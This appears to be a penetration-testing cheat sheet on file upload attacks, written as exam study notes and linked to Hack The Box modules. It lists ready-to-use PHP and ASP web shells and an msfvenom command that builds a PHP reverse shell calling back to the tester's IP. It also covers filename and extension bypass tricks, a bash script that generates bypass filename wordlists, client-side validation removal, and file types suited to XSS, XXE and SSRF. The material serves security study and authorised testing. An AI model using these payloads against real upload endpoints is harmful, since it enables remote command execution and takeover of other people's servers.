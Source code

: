 # File Upload Attacks  

>[Burp Suite Certified Practitioner study notes on file upload bypass](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#file-uploads)  

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php echo file_get_contents('/etc/hostname'); ?>` | PHP script that executes to get the (hostname) on the back-end server [Arbitrary File Upload](https://academy.hackthebox.com/module/136/section/1260) |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<?php echo shell_exec($_GET[ "cmd" ]); ?>` | Alternative PHP Webshell using shell_exec function. |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| `/usr/share/seclists/Web-Shells` | List of webshells for frameworks such as: CFM,FuzzDB,JSP,Laudanum, Magento, PHP, Vtiger and WordPress. |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** | [Bypass the client-side file type validations](https://academy.hackthebox.com/module/136/section/1280) |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** | [Blacklist Filters](https://academy.hackthebox.com/module/136/section/1288) Use Burp Suite intruder to upload a single file name with list possible extensions. Then use intruder again to perform GET request on all the files upload to identify PHP execution on target. |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** | [Whitelisting Extensions](https://academy.hackthebox.com/module/136/section/1289) |
| `shell.jpg.php` | Double Extension bypass example|
| `shell.php.jpg` | Reverse Double Extension |


>Character Injection - Before/After Extension to generate list of possible filenames to bypass file upload filters on white or black listings.  

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.jpg" >> filenames_wordlist.txt
        echo "shell$ext$char.jpg" >> filenames_wordlist.txt
        echo "shell.jpg$char$ext" >> filenames_wordlist.txt
        echo "shell.jpg$ext$char" >> filenames_wordlist.txt
    done
done
```  

## Content/Type Bypass  

| **Command**   | **Description**   |
| --------------|-------------------|
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

>Client side html code alter to allow file upload validation bypass by removing `validate()`, optional clearing the `onchange` and `accept` values.  

![uploads-client-side-html](/images/uploads-client-side-html.png)  


## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |